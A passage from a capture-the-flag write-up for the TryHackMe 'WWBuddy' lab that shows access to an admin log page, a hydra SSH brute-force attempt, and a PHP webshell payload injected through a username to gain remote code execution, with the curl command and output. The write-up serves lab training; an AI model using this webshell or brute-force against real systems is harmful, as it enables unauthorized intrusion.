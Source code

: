 **henry:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105062621.png)

- Henry brithday: `12/12/1212`

**In henry's account, we can go to the `/admin` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105063146.png)

**View source page:**
```html
Hey Henry, i didn't made the admin functions for this page yet, but at least you can see who's trying to sniff into our site here.<br>
<!--THM{Redacted} -->

192.168.0.139   2020-07-24 22:54:34   WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00 <br>
192.168.0.139   2020-07-24 22:56:09   Roberto b5ea6181006480438019e76f8100249e <br>
[...]
```

**Armed with above information, we can try to SSH to their SSH account:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# hydra -L user.txt -P pass.txt ssh://$RHOSTS        
[...]
```

But no dice.

Let's take a step back again.

**I found that the `/admin/` is also using a PHP file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230105064550.png)

**Now, what if I create a user or change username with a PHP webshell payload?**
```php
<?php system($_GET["cmd"]); ?>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230106005658.png)

**Then go to `/admin` so our payload will get logged:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230106005729.png)

**After that login as user `henry`, and then trigger the PHP webshell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# curl -s http://wwbuddy.thm/admin/index.php --cookie "PHPSESSID=24i8aq6e8bggaagojm6hc362dp" --get --data-urlencode "cmd=id" | tail -n 2 | head -n 1
10.9.0.253   2023-01-06 05:57:25   uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We got remote code execution!
